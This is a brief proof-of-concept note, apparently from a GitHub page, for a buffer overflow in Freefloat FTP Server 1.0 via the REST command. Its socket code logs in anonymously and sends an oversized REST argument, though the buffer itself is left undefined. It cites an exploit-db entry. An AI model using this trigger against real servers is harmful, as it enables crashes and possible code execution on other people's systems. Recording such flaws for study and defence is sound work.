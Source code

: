 # Buffer-Overflow in Freefloat FTP Server 1.0 -'REST'

POC ==>
s.send("USER anonymous\r\n");
s.recv(1024);
s.send("PASS anonymous\r\n");
s.recv(1024);
s.send("REST " + buffer + "\r\n");
s.send("QUIT\r\n");

Vulnerable dll : ntdll.dll
ref : https://www.exploit-db.com/exploits/17546

